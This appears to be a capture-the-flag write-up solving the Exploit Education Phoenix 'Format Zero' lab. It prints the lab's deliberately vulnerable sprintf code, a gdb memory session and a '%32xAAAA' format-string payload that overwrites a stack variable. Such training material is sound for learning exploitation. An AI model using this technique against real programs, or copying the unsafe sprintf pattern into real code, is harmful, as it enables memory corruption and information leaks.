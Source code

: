 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Format Zero"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

To learn about format string vulnerability see the references at the end.

This code uses **sprintf** function to write the formatted string **buffer** to **dest**.

The bug here is that if we entered a format string like **%d** without additional arguments (a number in this case) we could leak some values of the stack.

For example:

```c
int main() {
	printf("%x.%x.%x");
}
# output: d0a8b868 d0a8b878 3c43b1b0
```

As you can see we were able to leak some stack addresses.

Back to our level we must overflow **dest** to overwrite **changeme** but the buffer is too small for that so we can use the format string trick to solve this.

As you saw that one **%x** prints 8 characters so we can enter: (4 %x + value of **changeme**).

We can also just enter one %x with padding of 32 bytes like this: (%32x + value of **changeme**).

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/format-zero 
Reading symbols from /opt/phoenix/amd64/format-zero...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+99>:	mov    eax,0x0
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
.....

gef➤  b *0x000000000040070a
Breakpoint 1 at 0x40070a

gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAAAAAA

gef➤  x/5xg $rbp-0x30
0x7fffffffe620:	0x2020202020202020	0x2020202020202020
0x7fffffffe630:	0x2020202020202020	0x3031366566666666
0x7fffffffe640:	0x0000000a41414141
```

# Solution:

```
$ echo "%32xAAAA" | /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!  
```

#### References:

[http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
